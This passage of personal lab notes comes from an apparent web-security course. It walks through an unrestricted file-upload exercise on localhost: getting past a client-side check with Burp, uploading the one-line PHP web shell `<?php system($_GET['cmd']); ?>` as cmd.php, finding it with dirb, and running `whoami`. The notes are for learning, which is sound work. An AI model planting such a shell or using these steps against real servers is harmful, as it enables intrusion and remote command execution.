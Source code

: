 	- click Send
	  ![[Pasted image 20240309104829.png]]
	  =>
		- <span style="color:#00b050">we obtain 200 OK</span> and into the response there is the mex -->  "file is been uploaded"
		- you can check by refreshing the page
		  =>
		  <span style="color:#00b050">THE CHECK IS PERFORMED ONLY CLIENT SIDE</span>   (here we could sent the .txt)
=>
we can:
- create a PHP web shell
- upload it into the webserver

###### PHP shell
Now -->  instead of sending random text with burp =>  we send a php shell
=>
`<?php system($_GET['cmd']); ?>`
`$_GET` -->  this is going to get the value of the parameter inside the `[]` and send a GET request
`system()` -->  function that executes what it has inside

also:
we need to change the file type of our new req:
`cmd.php` -->  bc the file that we want to upload must be executable
![[Pasted image 20240309104930.png]]

let's send this:
=>
	<span style="color:#00b050">we obtain 200 OK and the file is been uploaded</span>   (check by refreshing the page)
now:
<span style="background:#fff88f">we need to find where this file is been uploaded</span>
=>
we can do:
-  <span style="color:#00b050">guessing</span>
   you can inspect the code to see where the other img in the webserver are stored
   ![[Pasted image 20240309103801.png]]
   =>
   let's try to see if the img is in -->  http://localhost/assets/cmd.php
   NO is not here
-  directory busting (ex [[cheat#dirb]])
   `dirb  http://localhost/`
   ![[Pasted image 20240309104419.png]]
   =>
   inside `labs` there is a directory -->  `uploads`
   =>
   let's try -->  http://localhost/labs/uploads/cmd.php
   ![[Pasted image 20240309105028.png]]
   _<span style="color:#00b050">It works</span> 
   We got an error bc -->  <span style="background:#fff88f">we didn't pass the parameter cmd with a value</span>
   =>
   `http://localhost/labs/uploads/cmd.php?cmd=whoami`
   ![[Pasted image 20240309105301.png]]
   =>
   _<span style="color:#00b050">WE PERFORMED CODE EXECUTION</span> 
